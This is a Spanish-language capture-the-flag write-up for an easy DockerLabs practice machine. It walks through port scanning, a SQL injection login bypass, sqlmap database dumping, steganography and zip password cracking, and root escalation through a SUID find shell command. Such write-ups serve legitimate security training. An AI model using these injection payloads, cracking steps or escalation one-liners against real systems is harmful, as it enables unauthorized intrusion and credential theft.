




Hoy maquina de [dockerlabs](https://dockerlabs.es)



Autor:yo(maciiii___)

Dificultad: Fácil

# INTRUSION

Comenzamos haciendo un escaneo de nmap

```css
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.3
```

```ruby
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 17:09 -03
Initiating ARP Ping Scan at 17:09
Scanning 172.17.0.3 [1 port]
Completed ARP Ping Scan at 17:09, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:09
Scanning 172.17.0.3 [65535 ports]
Discovered open port 80/tcp on 172.17.0.3
Discovered open port 22/tcp on 172.17.0.3
Completed SYN Stealth Scan at 17:09, 1.68s elapsed (65535 total ports)
Nmap scan report for 172.17.0.3
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-10 17:09:34 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:03 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se ve nada interesante mas que el puerto 22 pero por ahora no nos interesa.

Continuamos por el navegador y vemos esto:

#### PUERTO 80:



Al perecer es un panel de login, por lo que probaremos con las credenciales típicas:
`admin:admin`

`root:root`

pero como ninguna funciona podemos pasar a probar poner una comilla `'` si nos da el error significa que estamos frente a SQLi. Al probar nos da el siguiente error:



Sabiendo esto podriamos intentar nuevamente con el usuario admin pero poniendo `admin'or 1=1-- -` como usuario y de contraseña lo que sea. Una vez hecho veremos un panel que nos deja consultar el clima, pero al no tener nada interesante tendremos que usar sqlmap.

Para sqlmap pondremos en el terminal:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch --dbs
```

lo que nos dice que hay dos bases de datos:

```mysql
available databases [2]:
[*] information_schema
[*] users
```

La que nos interesa a nosotros es la `users` por lo que ahora pondremos:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users --tables
```

lo que nos mostrará las tablas de la base de datos `users`. 

```mysql
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```

El comando nos dice que hay una tabla llamada usuarios, por lo que ahora listaremos la tabla con:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users -T usuarios --dump
```

```mysql
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+

```

Ya teniendo todos los usuarios, vemos que hay uno medio anormal llamado `directorio:directoriotravieso`, ya que no parece un nombre común y se llama directorio, podriamos entrar desde el navegador a "directorios" y "directoriotravieso".

Luego de entrar a ambos, el único que si existe es "directoriotravieso", y dentro tiene una imagen, la descargamos y hacemos Esteganografía. Para hacerlo, podemos usar la herramienta `steghide`, con el comando:

```css
steghide extract -sf miramebien.jpg
```

 Al ejecutar el comando, nos pide un salvoconducto, pero como no lo tenemos le damos al enter. Como no podemos extraer nada, podemos tratar de hacer un ataque de diccionario al archivo con la herramienta `stegseek` usando el comando:

```css
stegseek extract -sf miramebien.jpg -wl /usr/share/wordlists/rockyou.txt
```

```css
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".
```

Vemos que dentro hay un .zip llamado "ocultito.zip" y que el salvoconducto es "chocolate", por lo que volvemos a ejecutar `steghide` y esta vez ponemos el salvoconducto "chocolate".

Esto nos deja un .zip el cual si intentamos extraer tiene contraseña, por lo que tendremos que utiliza `zip2john`para extraer el hash y luego crackearlo usando la herramienta `john the ripper`. Ejecutamos lo siguiente:

```css
zip2john ocultito.zip > hash.txt
```

Y luego

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

con esto ya tenemos la contraseña del zip:

```ABAP
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stupid1          (ocultito.zip/secret.txt)     
1g 0:00:00:00 DONE (2024-08-10 17:33) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Vemos que la contraseña del zip es "stupid1", por lo que ahora si podemos extraerlo usando el comando `unzip ocultito.zip` y poniendo la contraseña.

Esto nos deja un .txt llamado "secret.txt" que al parecer tiene la contraseña del ssh, lo probamos con `ssh carlos@172.17.0.3` y listo, estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ahora somos el usuario `carlos` por lo que nos fijamos si podemos ejecutar algo con sudo usando `sudo -l` y nada. Por lo que veremos si hay algún binario que podamos aprovechar en el SUID, para verlo ejecutamos:

```ABAP
find / -perm -4000 2>/dev/null
```

```css
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/bin/chsh
/usr/bin/find
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
```

Como vemos, esta el binario `find`, si buscamos en [GTFObins](https://gtfobins.github.io) vemos que podemos aprovecharnos de el para escalar usando el comando:

```ruby
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Al usarlo escalamos a root.




Por si te interesa:

[INSTAGRAM](https://instagram.com/macim0_)

